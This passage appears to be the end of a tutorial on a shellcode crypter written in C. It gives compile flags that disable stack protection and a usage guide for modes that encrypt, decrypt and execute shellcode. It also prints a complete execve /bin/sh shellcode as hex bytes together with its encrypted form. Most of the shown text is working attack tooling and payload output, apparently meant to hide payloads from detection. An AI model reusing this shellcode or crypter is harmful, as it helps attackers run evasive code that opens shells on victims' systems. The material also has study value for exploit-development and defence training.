 ```c
        return decrypt(characterSet, key, payload, 1, debug);
    }

    return 0;
}
```

This code is capable of handling the following tasks:

* Encrypting shellcode
* Decrypting shellcode
* Executing encrypted shellcode

Using the Crypter
-----------------
To compile the code, save it to a file named `crypter.c` and run the following command:

```
gcc -m32 -fno-stack-protector -z execstack crypter.c -o crypter
```

It is important to use the `no-stack-protector` flag, otherwise the execution of the shellcode will not be possible.

Once compiled, it can be used by running the `crypter` executable. The executable accepts 4 positional arguments, which in order are:

* `mode` - `e` to encrypt, `d` to decrypt or `x` to execute the payload
* `key` - the key specified as escaped bytes; e.g. `\xde\xad\xbe\xef`
* `payload` - the payload to be encrypted, decrypted or executed specified as escaped bytes
* `debug` - any arbitrary value placed here will enable debug mode, which will show some extra information when encoding payloads

In the below example, an execve shellcode is encrypted using the key `\xde\xad\xbe\xef` and the encrypted shellcode is output:

```shell_session
$ ./crypter e "\xde\xad\xbe\xef" "\xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43"

Encrypted: \xc9\xc6\x1c\x20\xb9\x35\x1c\xf5\x67\x23\xc5\x78\x3c\xb8\x4b\x0d\x6b\xfa\xc5\x7c\x34\xb8\xee\xaf\x8e\xb7\x8b\x6f\xc6\x8e\xbd\xee\xdd\xdb\x20\x58\x4c\xdb\x31\x57\x1f\xee\xff\x31\x20\xef\x01\x32\x21
```

To verify this is reversible, the decrypt mode is used, passing in the same key and the encrypted payload:

```shell_session
$ ./crypter d "\xde\xad\xbe\xef" "\xc9\xc6\x1c\x20\xb9\x35\x1c\xf5\x67\x23\xc5\x78\x3c\xb8\x4b\x0d\x6b\xfa\xc5\x7c\x34\xb8\xee\xaf\x8e\xb7\x8b\x6f\xc6\x8e\xbd\xee\xdd\xdb\x20\x58\x4c\xdb\x31\x57\x1f\xee\xff\x31\x20\xef\x01\x32\x21"

Decrypted: \xeb\x1a\x5e\x31\xdb\x88\x5e\x07\x89\x76\x08\x89\x5e\x0c\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43
```
